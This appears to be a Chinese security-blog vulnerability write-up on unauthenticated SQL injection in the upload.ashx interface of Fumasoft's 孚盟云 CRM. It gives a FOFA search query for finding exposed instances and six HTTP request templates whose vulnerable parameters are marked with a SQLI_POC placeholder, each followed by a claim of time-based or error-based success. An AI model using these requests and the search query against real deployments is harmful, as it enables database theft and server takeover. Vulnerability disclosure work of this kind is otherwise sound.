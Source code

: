 ## 漏洞简介

上海孚盟软件有限公司是一家专业的外贸SaaS服务和行业解决方案提供商。其旗下产品孚盟云upload.ashx接口存在[SQL注入](https://mrxn.net/tag/SQL%E6%B3%A8%E5%85%A5)漏洞，未经身份验证的远程攻击者除了可以利用[SQL注入漏洞](https://mrxn.net/tag/SQL%E6%B3%A8%E5%85%A5)获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

## fofa语法

> app="孚盟软件-孚盟云"
## 漏洞复现

## showImgss

```HTTP
GET /Ajax/upload.ashx?action=showImgss&FID=SQLI_POC HTTP/1.1
Host: x.x.x.x
```


![[Pasted image 20250828143107.png]]
成功延时 4 秒

## deletefile

```HTTP
GET /Ajax/upload.ashx?action=deletefile&name=poc HTTP/1.1
Host: fumacrm.mrxn.net
X-Forwarded-For: 127.0.0.1
Cookie: poc=SQLI_POC
```

![[Pasted image 20250828143611.png]]

成功利用报错注入在响应回显数据库版本信息

## showSmallImg

```HTTP
GET /Ajax/upload.ashx?action=showSmallImg&id=SQLI_POC&tabpoc=bfContacts&imgField=FID HTTP/1.1
Host: fumacrm.mrxn.net
```

![[Pasted image 20250828143148.png]]

成功利用报错注入在响应回显数据库版本信息

## showProdImg

```HTTP
GET /Ajax/upload.ashx?action=showProdImg&FID=SQLI_POC HTTP/1.1
Host: fumacrm.mrxn.net
```

![[Pasted image 20250828143205.png]]

成功利用报错注入在响应回显数据库版本信息

## **image**

```HTTP
GET /Ajax/upload.ashx?action=image&CardID=SQLI_POC&imagefb=FID HTTP/1.1
Host: fumacrm.mrxn.net
```

![[Pasted image 20250828143230.png]]

成功利用报错注入在响应回显数据库版本信息

## DownLoadFieldAttch

```HTTP
GET /Ajax/upload.ashx?action=DownLoadFieldAttch&trueFileName=SQLI_POC HTTP/1.1
Host: fumacrm.mrxn.net
```
![[Pasted image 20250828143557.png]]

成功利用报错注入在响应回显数据库版本信息